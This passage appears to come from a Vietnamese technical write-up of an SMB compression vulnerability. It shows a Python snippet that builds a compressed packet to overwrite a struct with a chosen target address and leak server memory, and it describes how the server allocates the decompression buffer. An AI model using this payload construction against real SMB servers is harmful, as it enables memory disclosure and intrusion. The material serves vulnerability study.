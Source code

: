 ``` c
data += sentinel
data_to_compress = os.urandom(0x1100 - len(data))
// 0x18 null bytes that override the struct.
data_to_compress += b'\x00'*0x18
// Target address.
data_to_compress += struct.pack('<Q', allocation_pool_object_ptr + 0x1650)
data = data + compress(data_to_compress)
```

Ở trên, data có chứa sentinel được tạo ra bằng hàm os.urandom(2), nó sẽ có độ dài 2 byte, và 2 byte này sẽ giúp ta biết được địa chỉ ta leak ra có đúng là địa chỉ ta cần leak hay không thông qua việc so sánh nó sau khi quá trình leak thành công.

Nếu tổng kích thước của gói tin gửi đi từ client lớn hơn 0x1100 (điều này sẽ tùy thuộc vào dữ liệu được random trước khi nén) thì chắc chắn `allocation_pool_object_ptr` sẽ được sử dụng để chứa nó trên SMB server:

![](pic2/pic30.PNG)

Tiếp theo SMB server sẽ gọi hàm SrvNetAllocateBuffer để cấp phát một vùng nhớ phục vụ cho việc giải nén. Nhưng do tổng của OriginalCompressedSegmentSize và Offset là 0x21 nên nó chỉ cấp phát một vùng với user buffer có kích thước là 0x1100:

![](pic2/pic31.PNG)
